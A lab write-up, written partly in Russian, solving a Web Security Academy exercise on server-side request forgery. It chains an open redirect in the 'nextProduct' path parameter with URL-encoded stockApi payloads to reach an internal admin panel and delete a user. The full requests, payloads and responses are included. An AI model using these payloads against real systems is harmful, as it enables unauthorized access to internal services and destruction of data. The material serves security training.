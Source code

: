 # SSRF with filter bypass via open redirection vulnerability
PRACTITIONER

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

## Решение
Обработчик ссылки "Next product", расположенной в нижнем правом углу страницы, содержит уязвимость Open Redirect:
```
GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin HTTP/2
Host: 0a1200b804e5ee8d80192b5d00cf00dc.web-security-academy.net
Cookie: session=hym1zhR5RZ6xEOqcWQ0h8ppowJesIaLX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1200b804e5ee8d80192b5d00cf00dc.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```
```
HTTP/2 302 Found
Location: http://192.168.0.12:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```
Закодирую `/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin` в URL-encoding и передам в качестве значения параметра stockApi:

`stockApi=%2f%70%72%6f%64%75%63%74%2f%6e%65%78%74%50%72%6f%64%75%63%74%3f%63%75%72%72%65%6e%74%50%72%6f%64%75%63%74%49%64%3d%31%26%70%61%74%68%3d%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%32%3a%38%30%38%30%2f%61%64%6d%69%6e`

```
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/http://192.168.0.12:8080/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/http://192.168.0.12:8080/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```
Закодирую `/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos` в URL-encoding:

`%2f%70%72%6f%64%75%63%74%2f%6e%65%78%74%50%72%6f%64%75%63%74%3f%63%75%72%72%65%6e%74%50%72%6f%64%75%63%74%49%64%3d%31%26%70%61%74%68%3d%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%32%3a%38%30%38%30%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73`

```
<section>
    <p>User deleted successfully!</p>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/http://192.168.0.12:8080/admin/delete?username=wiener">Delete</a>
    </div>
</section>
```
Задание выполнено.
